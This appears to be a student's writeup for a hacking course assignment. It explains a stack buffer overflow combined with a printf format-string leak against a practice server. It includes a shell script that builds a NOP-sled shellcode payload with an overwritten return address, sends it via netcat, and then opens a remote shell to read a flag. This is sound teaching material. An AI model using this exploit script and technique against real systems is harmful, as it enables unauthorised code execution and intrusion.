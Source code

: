 +++
title = "Writeup for assignment 5"
date = 2020-06-11
summary = "Solutions and explanations for assignment 5"

draft = false
toc = true
type = "docs"

highlight = true
highlight_languages = ["c", "makefile", "shell", "plaintext"]

authors= [
"thom"
]

[menu.hic2020]
name = "Writeup Assignment 5"
parent = "Assignments"

#weight = 30
+++
# Writeup "Overflowing a buffer"

## Analysis

The program we get prints back any input we give to it.

1. We start out by giving the program a lot of "A"s for input.
    1. We see that when we give it more than 104 bytes, we get some garbage output at the end.
        * The size of the buffer is probably 100 bytes
        * This garbage is probably some other variable above our buffer that gets written after we overflow the buffer
    1. When we give it 114 bytes of input, it crashes
        * We are probably starting to overwrite a frame pointer or return address

Using what we know of the stack and what we learnt, we can draw this picture of the stack:

```plaintext
+================================+ 0x7ffff
| main()                         |
+================================+
| ....                           |
+================================+
| return address                 |
+--------------------------------+
| frame pointer                  |
+--------------------------------+
| unknown variable               |
| buffer[100]                    |
+--------------------------------+
```

2. We now try a `%p` and see that we have a `printf` vulnerability.
    1. We give it 30x`"%p "`, so 90 bytes, to stay within the buffer, and obtain the following output:
    ```plaintext
    0x7ffff7ffc528 0 0 0x7ffff7ffda40 0 0x7025207025207025
    0x2520702520702520 0x2070252070252070 0x7025207025207025
    0x2520702520702520 0x2070252070252070 0x7025207025207025
    0x2520702520702520 0x2070252070252070 0x7025207025207025
    0x2520702520702520 0x2070 0 0x7fffffffebd0 0x7fffffffec60
    0x555555555236 0x7fffffffecc8 0x100000000 0x7fffffffec70
    0x55555555524f 0x1 0x7ffff7f851f5 0x7ffff7f851ce
    0x7fffffffecb0 0
    ```

    2. We know that the first few arguments are register values, so we ignore them.
    3. We see then a bunch of ``0x702520` values: we hex decode this and see it's the hex encoding of `p`, `%` and `space` in ASCII.
    4. We see that there is a value `0x555555555236` which we hypothesise is the return address of our stack frame
        1. we see another similar address behind it, probably another stack frame.
    5. We see ``0x7fffffffec60`` before it that could very well be the frame pointer: it's a stack address because it starts with `0x7ff`.
    6. We see before the frame pointer some other value `0x7fffffffebd0`, which appears to be an address on the stack. This may be our unknown variable.

```plaintext
+================================--+ 0x7ffff
| main()                           |
+==================================+
| ....                             |
+==================================+
| return address 0x555555555236    |
+----------------------------------+
| frame pointer  0x7fffffffec60    |
+----------------------------------+
| unknown variable: 0x7fffffffebd0?|
| buffer[100]: 0x702520...         |
+----------------------------------+
```

3. Hypothesis: `0x7fffffffebd0` is the address of buffer.
    * `gets` returns the address of the buffer that is read into, so it's likely that that address is a local variable on the stack.

## Attack

1. We need to insert our shellcode at the start of the buffer
2. Followed by some `%p`s that we will use to position the return address
3. Followed by the return address `0x7fffffffebd0` in little-endian form.

We modify `attack.sh` in the following way:

```sh
# The first argument $1 is the number of %ps
for i in $(seq 0 $1); do
    attackstr="${attackstr}%p "
done

# if we provide a second argument insert the shellcode
# We also use $2 to indicate the number of NOPs we want
if ! [ "$2" = "" ]; then
    attackstr="$(shellcode list $2)$attackstr"
fi

# The third argument is the return address we want to use
if ! [ "$3" = "" ]; then
    attackstr="${attackstr}$(reverseaddr $3)"
fi

# print len
echo "Attack string is $(echo attackstr | wc -c) bytes" >&2
# send attackstr to hackme
echo $attackstr | nc hackme.rded.nl PORT
```

We execute this in the following way:

```sh
./attack.sh <%p count> <num of nops> <address>
```

If we provide 116 bytes, we see that we partially overwrite the frame pointer (we see ``0x7f007fffffff``)
If we provide 118 bytes, we see that we exactly overwrite the frame pointer (we see ``0x2520702520702520 0x7fffffffebd0 0x7fffffffebd0``)

This allows us to update the stack picture with what byte of our input exactly ends up where:
```plaintext
+================================--+ 0x7ffff
| main()                           |
+==================================+
| ....                             |
+==================================+
| return address 0x555555555236    | 120..128
+----------------------------------+
| frame pointer  0x7fffffffec60    | 112..120
+----------------------------------+
| unknown variable: 0x7fffffffebd0?| 104..110
| buffer[100]: 0x702520...         |   0..100
+----------------------------------+
```

The return address is 8 bytes behind the frame pointer, so we now write 126 bytes.
We get the output

```plaintext
H1H1H//bin/lsSHRWH;0x7ffff7ffc528 0 0 0x7ffff7ffda40
0 0x9090909090909090 0x9090909090909090 0xd23148c031489090
0x2f6e69622f2fbb48 0x485308ebc148736c 0xb0e689 485752e789
0x7025207025050f3b 0x2520702520702520 0x2070252070252070
0x7025207025207025 0x2520702520702520 0x2070252070252070
0x7025207025207025
FLAG
bin
...
```

We now know that `/bin/ls` was sucessfully executed by the shellcode: the unknown variable is indeed a pointer to buffer.

```plaintext
+================================--+ 0x7ffff
| main()                           |
+==================================+
| ....                             |
+==================================+
| return address 0x555555555236    | 110..128
+----------------------------------+
| frame pointer  0x7fffffffec60    | 112..120
+----------------------------------+
| var = &buffer: 0x7fffffffebd0    | 104..112
| buffer[100]: 0x702520...         |   0..100
+----------------------------------+
```


We now need to switch to the variant that starts `/bin/sh`.

To make sure that we can still provide input to the shellcode, we also switch to the command line with

```sh
(echo $attackstr; cat -) | nc hackme.rded.nl PORT
```

We obtain a shell and type ``cat FLAG``:

```sh
cat /FLAG
HiCCTF{2v3jp6i8GLMCJpDuzD03ILEqKFmcyIMaziEuqi9HXhyoStRi4E2INJopluRr4J1c}
```
